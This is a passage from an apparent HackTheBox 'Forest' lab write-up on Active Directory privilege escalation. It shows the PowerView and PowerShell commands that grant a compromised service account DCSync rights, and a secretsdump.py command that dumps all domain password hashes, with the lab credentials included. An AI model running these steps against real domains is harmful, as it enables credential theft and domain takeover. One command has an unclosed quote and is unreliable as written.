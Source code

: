 In this instance, if we set ‘svc-alfresco’ as ‘owned’ and then run the ‘Shortest Paths to Domain Admins from Owned Principals’ the following attack path is revealed.

![bloodhound]({{site.url}}/assets/CTF/HTB-Forest/bloodhound.png)

If we follow all of the ‘MemberOf’ streams we can see that effectively our compromised user ‘svc-alfresco’ is effectively a member of the ‘Account Operators’ group. The Account Operators has ‘Generic All’ privilege on the Exchange Windows Permissions group, this allows us to effectively add ourselves as a member of the Exchange Windows Permissions group. Once our user is added to this group we will have be able to grant ourselves DCSync privileges on the domain, allowing us to dump all domain hashes for all users.

### Stage 1
Adding ourselves implicitly to the ‘Exchange Windows Permissions’ group is pretty simple using the [PowerView]( https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1 ‘Add-DomainGroup’ module.
```
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members svc-alfresco
```

![addgroupmember]({{site.url}}/assets/CTF/HTB-Forest/addgroupmember.png)

### Stage 2
Now we are a member of this group, we can add DCSync privileges using the below 
```
$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force; 
$Cred = New-Object System.Management.Automation.PSCredential('htb\svc-alfresco', $SecPassword); 
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL -Rights DCSync;
```

### Stage 3
Now that our svc-alfresco user had DCSync privleges on the domain, we can use impackets ‘SecretsDump.py’ to obtain hashed user credentials from the NTDS.dit file.
```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```

It is worth noting that there is some form of Cron Job in place designed to reset svc-alfresco’s group membership and permissions, so if the above stages 1 and 2 are not completed fast enough you will not be able to DCSync. I would therefore recommend running them as one script and be ready with your secretsdump.py command.
![ACLUpdate]({{site.url}}/assets/CTF/HTB-Forest/aclupdate.png)

![secretsdump]({{site.url}}/assets/CTF/HTB-Forest/secretsdump.png)


### ACLPwn.py
If you’re thinking this methodology is a bit long winded in terms of both identifying an attack path, and exploiting it there is an automated way, [ACLPwn](https://github.com/fox-it/aclpwn.py).
*ACLPwn.py is a tool that interacts with BloodHound to identify and exploit ACL based privilege escalation paths. It takes a starting and ending point and will use Neo4j pathfinding algorithms to find the most efficient ACL based privilege escalation path.*
